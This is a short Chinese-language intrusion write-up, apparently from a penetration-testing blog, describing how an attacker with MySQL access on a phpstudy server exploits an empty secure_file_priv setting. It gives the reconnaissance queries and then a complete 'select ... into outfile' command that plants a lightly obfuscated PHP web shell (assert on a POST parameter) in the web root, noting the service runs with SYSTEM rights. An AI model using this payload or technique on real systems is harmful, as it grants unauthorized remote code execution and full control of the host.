



看了一下secure_file_priv，发现是空的，所以能写文件上去

```
show variables like "secure_file_priv";
```



查看日志发现是phpstudy起的服务，那就很好，因为这东西权限很高，一般连上去就是system权限，不用udf提权了

```
show variables like "%general%"
```



```
select "<?php $arr = [$_POST[Ki1ro],$_REQUEST[Ki1ro]];@assert($arr[mt_rand(0,1)]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

